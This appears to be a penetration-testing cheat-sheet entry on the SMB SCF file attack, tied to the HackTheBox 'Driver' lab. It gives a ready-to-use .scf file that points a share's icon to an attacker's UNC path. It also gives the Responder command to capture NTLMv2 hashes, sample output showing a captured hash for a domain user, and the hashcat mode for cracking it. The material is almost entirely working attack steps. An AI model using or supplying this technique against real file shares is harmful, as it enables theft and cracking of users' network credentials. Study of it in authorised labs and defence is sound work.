 # SMB

### scf file attack

if you have write access to a share, drop a scf file pointing to a responder share to capture hashes.

source: [https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)
lab: [https://app.hackthebox.com/machines/Driver](https://app.hackthebox.com/machines/Driver)

- create the scf file

```
cat << EOF > exploit.scf
[Shell]
Command=2
IconFile=\\\\10.10.14.74\\share\\exploit.ico
[Taskbar]
Command=ToggleDesktop
EOF

```

- drop the exploit on the share by any means
- start resonder and wait for connections:

```
sudo responder -w --lm -v -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.1.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[...]

[SMB] NTLMv2 Client   : ::ffff:10.10.11.106
[SMB] NTLMv2 Username : DRIVER\\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:90915e30a4d61b55:EFD5982FC730F2132B289A758EF1AB26:010100000000000017D7481F870BD801DADD4A94693D22FF00000000020000000000000000000000
[...]

```

- crack with hashcat -m 5600